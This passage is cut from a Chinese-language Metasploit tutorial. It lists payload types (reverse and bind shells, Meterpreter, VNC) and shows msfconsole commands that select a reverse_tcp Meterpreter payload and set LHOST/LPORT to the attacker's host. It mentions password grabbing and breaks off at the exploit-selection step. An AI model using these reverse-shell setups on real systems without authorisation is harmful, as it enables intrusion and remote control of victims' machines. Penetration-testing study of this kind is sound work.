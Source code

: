 - **反向 Shell**：执行一个反向连接的 Shell 会话。目标机器通过反向连接将一个 Shell 会话连接到攻击者的主机上。
  - 例如，`windows/meterpreter/reverse_tcp` 是一个常见的反向 Meterpreter 会话负载。
- **反向 Meterpreter**：提供一个功能强大的 Meterpreter 会话，通过反向连接将会话发送到攻击者的主机上。
  - 例如，`windows/x64/meterpreter/reverse_tcp`。

#### 2.2. **绑定连接（Bind）**

- **绑定 Shell**：在目标机器上创建一个绑定的 Shell 会话，攻击者可以通过网络连接到目标机器上。
  - 例如，`windows/meterpreter/bind_tcp` 会在目标机器上启动一个监听端口，等待攻击者的连接。
- **绑定 Meterpreter**：在目标机器上创建一个绑定的 Meterpreter 会话，攻击者可以通过连接到目标机器上的指定端口来获得会话。
  - 例如，`windows/x64/meterpreter/bind_tcp`。

#### 2.3. **单一用途（Single-Use）**

- **Command Execution**：执行一个特定的命令并退出。这类 Payload 只运行一次，并在执行完成后退出。
  - 例如，`cmd/unix/reverse` 执行一个反向 Shell 并在执行后退出。
- **Scripting**：执行一个指定的脚本。
  - 例如，`cmd/windows/powershell_reverse_tcp` 执行一个 PowerShell 脚本并将结果发送回攻击者。

#### 2.4. **其他类型**

- **VNC**：提供对目标机器的图形化访问。
  - 例如，`windows/vncinject/reverse_tcp` 提供一个 VNC 会话。
- **Meterpreter**：一个强大的 Payload，它提供了一个全面的攻击框架，包括文件系统访问、网络流量监控、密码抓取等功能。
  - 例如，`windows/x64/meterpreter/reverse_https` 提供一个反向 HTTPS Meterpreter 会话。

### 3. **配置 Payload 模块**

配置 Payload 模块通常包括以下步骤：

1. **选择 Payload**： 使用 `use` 命令选择一个 Payload 模块：

   ```
   msf > use payload/windows/meterpreter/reverse_tcp
   ```
   
2. **设置 Payload 选项**： 设置 Payload 的参数，例如目标主机和端口：

   ```
   msf payload(meterpreter/reverse_tcp) > set LHOST [your IP]
   msf payload(meterpreter/reverse_tcp) > set LPORT [port number]
   ```

   - `LHOST`：攻击者主机的 IP 地址，用于接收连接。
   - `LPORT`：攻击者主机的监听端口。

3. **验证设置**： 使用 `show options` 命令检查配置是否正确：

   ```
   msf payload(meterpreter/reverse_tcp) > show options
   ```
   
4. **生成 Payload**： 在 Exploit 模块配置完成后，Payload 会自动作为 Exploit 模块的一部分被加载和执行。

### 4. **使用 Payload 模块的步骤**

1. **选择 Exploit 模块**：选择一个针对目标系统的 Exploit 模块。
